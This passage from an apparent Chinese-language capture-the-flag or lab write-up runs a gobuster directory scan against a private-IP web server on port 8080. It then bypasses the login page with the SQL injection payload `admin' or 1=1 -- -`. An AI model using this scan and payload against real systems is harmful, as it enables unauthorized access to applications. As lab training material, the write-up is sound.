 还有个 8080 端口也扫一下
```
gobuster dir -u http://192.168.218.207:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.218.207:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/logout.php           (Status: 302) [Size: 0] [--> /login.php]
/login.php            (Status: 200) [Size: 2861]
/inc                  (Status: 301) [Size: 323] [--> http://192.168.218.207:8080/inc/]
/docs                 (Status: 301) [Size: 324] [--> http://192.168.218.207:8080/docs/]
/users.php            (Status: 302) [Size: 5225] [--> /login.php]
/usage                (Status: 403) [Size: 290]
/index.php            (Status: 302) [Size: 2539] [--> /login.php]
/phpmyadmin           (Status: 301) [Size: 330] [--> http://192.168.218.207:8080/phpmyadmin/]
/feedback.php         (Status: 302) [Size: 3026] [--> /login.php]
/newsletters.php      (Status: 302) [Size: 2839] [--> /login.php]
/reservations.php     (Status: 302) [Size: 3413] [--> /login.php]
/trainings.php        (Status: 302) [Size: 2897] [--> /login.php]
/readings.php         (Status: 302) [Size: 4726] [--> /login.php]
/index.php            (Status: 302) [Size: 2539] [--> /login.php]
Progress: 224656 / 224660 (100.00%)
===============================================================
Finished
===============================================================
```


# web信息枚举
有不一样的目录，大多是重定向到 login 页面
输入单引号，造成了报错

<img width="1919" height="505" alt="Image" src="https://github.com/user-attachments/assets/0bc48681-e587-46b0-9246-826e16908581" />

`admin' or 1=1 -- -`  直接进

<img width="1919" height="562" alt="Image" src="https://github.com/user-attachments/assets/e4858377-e3ee-4214-8751-46c6ce01f10c" />
